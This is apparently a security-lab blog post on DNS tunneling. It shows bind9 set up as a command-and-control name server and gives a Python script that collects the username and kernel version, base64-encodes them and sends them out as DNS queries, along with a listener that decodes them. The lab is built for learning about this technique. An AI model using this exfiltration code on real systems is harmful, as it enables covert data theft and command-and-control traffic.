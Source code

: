 ```yaml
---
title: DNS Tunneling
date: 2025-06-11
draft: false
author: Alex Jenkins
---
```

| Category      | ID        | Description       |
| ------------- | --------- | ----------------- |
| Tactic        | TA011     | Command and Control |
| Technique     | T1071     | Application Layer Protocol  |
| Sub-Technique | T1071.004 | Application Layer Protocol: DNS |
# Configuration
For this configuration I am using Ubuntu Server 24.04.2 LTS for my C2 server and Arch Linux for the infected machine. You don't need to use Arch for your host, you can use whatever Linux OS you want. Ubuntu Server is recommended because it's what I've used for this lab and it has nice easy-to-use DNS software ready to install from the package repository. Go ahead and set those two machines up then continue reading for the DNS config.

### Domain Name System
First of all, make sure you download bind9 and dnsutils. bind9 is what we will be using as the name server, and dnsutils gives us some common DNS troubleshooting tools like nslookup. Install these with the following command:
```
sudo apt-get install bind9 dnsutils
```

I will be covering all the steps required to get this up and running, but I would encourage you to read (Ubuntu's Tutorial)[https://documentation.ubuntu.com/server/how-to/networking/install-dns/index.html] on setting up a DNS server, which will be much more in-depth than what is included in this post.

**Forward Lookup Zone**
First modify the /etc/bind/named.conf.local file to include your forward lookup zone file and domain. Mind looks like:
```
zone "homelab.local" {
  type master;
  file "/etc/bind/db.homelab.local";
};
```

Now copy an existing zone file as a template like so:
```
sudo cp /etc/bind/db.local /etc/bind/db.homelab.local
```

Then add some A records to the file:
```
;
; BIND data file for local loopback interface
;
$TTL    604800
@       IN      SOA     homelab.local. root.homelab.local. (
                              2         ; Serial
                         604800         ; Refresh
                          86400         ; Retry
                        2419200         ; Expire
                         604800 )       ; Negative Cache TTL
;
@       IN      NS      homelab.local.
@       IN      A       192.168.1.155      
```
!! Make sure you increment the serial number every time you make a change !!

Restart the server with:
```
sudo systemctl restart bind9
```

```
include "/etc/bind/named.conf.options";
include "/etc/bind/named.conf.local";
include "/etc/bind/named.conf.default-zones";

logging {
        channel query.log {
                file "/var/log/named/query.log";
                severity debug 3;
        };
        category queries { query.log; };
};
```

```
sudo mkdir /var/log/named
sudo chown bind:bind /var/log/named
sudo systemctl restart bind9
sudo tail -f /var/log/named/query.log
```

Now test it on another machine with nslookup homelab.local and you should see some acitivity in the log file:
```
root@c2-server:/etc/bind# tail -f /var/log/named/query.log
client @0x77042c1ca578 192.168.1.182#36083 (homelab.local): query: homelab.local IN A + (192.168.1.155)
client @0x77042c1ca578 192.168.1.182#35547 (homelab.local): query: homelab.local IN AAAA + (192.168.1.155)
```

## Infected Machine
On infected machine modify /etc/resolv.conf to include:
```
nameserver 192.168.1.155 # Change this to the IP of your DNS server
```
This simulates real-world DNS connection. In doing this you can keep it isolated to your private network, allowing the infected machine to treat your server as its own DNS - enabling IP resolution. In real-world scenarios this wouldn't be required because the domain would be recognised by a public DNS provider.

# Red Team
``` python
def base64_encode(data):
    # base64 encoding requires input data as bytes
    if not isinstance(data, bytes):
       data = data.encode("utf-8")
    data = base64.b64encode(data)
    return data.decode("utf-8").strip()

def run_command(commands):
    # process commands and return stdout as bytes
    return subprocess.run(commands, capture_output=True).stdout

# Reconnaissance
import subprocess
raw_username = run_command("whoami")
raw_system_info = run_command(["uname", "-r"])

# Encoding
import base64
encoded_username = base64_encode(raw_username)
encoded_system_info = base64_encode(raw_system_info)

# Exfiltration
import dns.resolver
domain = ".homelab.local"
encoded_message = f"{encoded_username}.{encoded_system_info}" + domain
try:
    dns.resolver.resolve(encoded_message, 'TXT')
except:
    pass
```

When running the script you should get output like below:
```
client @0x77042c1ca578 192.168.1.182#55499 (YWxleAo=.Ni4xNC4xMC1hcmNoMS0xCg==.homelab.local): query: YWxleAo=.Ni4xNC4xMC1hcmNoMS0xCg==.homelab.local IN TXT +E(0) (192.168.1.155)
```

Now that we've confirmed that works it's time to make a python script on the server to strip out the query and decode it.
``` python
import re
import time
import base64

dns_log_file = "/var/log/named/query.log"

with open(dns_log_file, "r") as file:
    file.seek(0,2) # move to end of file
    while True:
        message = []
        line = file.readline()
        if line:
            line = line.strip()
            match = re.search(r'query: ([^\s]+)', line)
            if match:
                query = match.group(1)
                split_query = query.split('.')
                for section in split_query:
                    if section == "homelab" or section == "local":
                        pass
                    else:
                        decoded_section = base64.b64decode(section).decode("utf-8").strip()
                        message.append(decoded_section)
        if message:
            print(" ".join(message))
        time.sleep(1)
```

The program above is designed to listen to the DNS log file for any updates, refreshing every second. I've named it dns_listener.py. You should notice that this is a very basic example and isn't very fault-tolerant. It will quickly strip out the query within the DNS record, split that query into sections by periods, and decode those sections if they don't match one of two keywords; homelab and local. Make sure to adapt those keywords to fit your setup if you're following along or you will have errors.

The malware on the infected machine will gather user and system information relevant to your setup. That said, if all steps were followed correctly, the listener should have successfully decoded the DNS query and will output the infected machine's details. Example output from my machine:
```
alex@c2-server:~$ python3 dns_listener.py 
alex 6.14.10-arch1-1
```

With that you've had a basic example of how a threat actor might exfiltrate data via the DNS protocol. The example I've given is the first step of communication, where the server has now received information which it can use to identify the infected machine. In future communications the infected machine could prefix messages with this information so that the C2 server may recognise the source of the data.
